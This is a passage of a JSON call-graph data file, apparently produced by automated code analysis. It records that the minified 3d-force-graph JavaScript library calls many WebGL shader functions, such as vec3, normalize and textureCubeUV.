"EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "treturn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "evalSensitivity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "evalIridescence"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "evalSensitivity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "float"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dHdxy_fwd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dFdx"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dFdy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "perturbNormalArb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fwidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "smoothstep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fwidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "smoothstep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tfor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getBatchingColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "whiteComplement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "pow4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "average"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "rand"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mod"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "precisionSafeLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "precisionSafeLength"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "inverseTransformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "transposeMat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isPerspectiveMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equirectUv"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "atan"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "asin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exp2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exp2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bilinearCubeUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exp2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exp2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2DGradEXT"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "roughnessToMip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "log2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureCubeUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clamp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bilinearCubeUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bilinearCubeUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texture2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "linearToOutputTexel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mat3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tvec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "sRGBTransferOETF"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "inverseTransformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reflect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "refract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureCube"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getIBLIrradiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "inverseTransformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureCubeUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getIBLRadiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reflect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "inverseTransformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "textureCubeUV"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getIBLAnisotropyRadiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getIBLRadiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "tif"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "normalize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "inverseTransformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reflect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "refract"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "smoothstep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getGradientIrradiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fwidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "mix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "vec3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "smoothstep"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "saturate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "defined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "shGetIrradianceAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getLightProbeIrradiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "inverseTransformDirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "shGetIrradianceAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getAmbientLightIrradiance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": 